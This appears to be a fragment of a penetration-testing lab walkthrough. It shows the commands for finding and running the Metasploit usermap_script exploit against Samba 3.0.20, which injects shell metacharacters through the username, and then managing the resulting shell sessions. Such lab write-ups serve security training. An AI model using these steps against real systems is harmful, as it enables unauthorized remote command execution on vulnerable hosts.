 ```bash
searchsploit samba 3.0.20
```

```bash
# In the MSFconsole
search samba 3.0.20
use exploit/multi/samba/usermap_script
info
# Description:
#   This module exploits a command execution vulnerability in Samba 
#   versions 3.0.20 through 3.0.25rc3 when using the non-default 
#   "username map script" configuration option. By specifying a username 
#   containing shell meta characters, attackers can execute arbitrary 
#   commands. No authentication is needed to exploit this vulnerability 
#   since this option is used to map usernames prior to authentication!
run
```

![](4-exploitationassets/image-20230424152549355.png)

```bash
# CTRL+Z to background
sessions
sessions -u 4
sessions 6
```
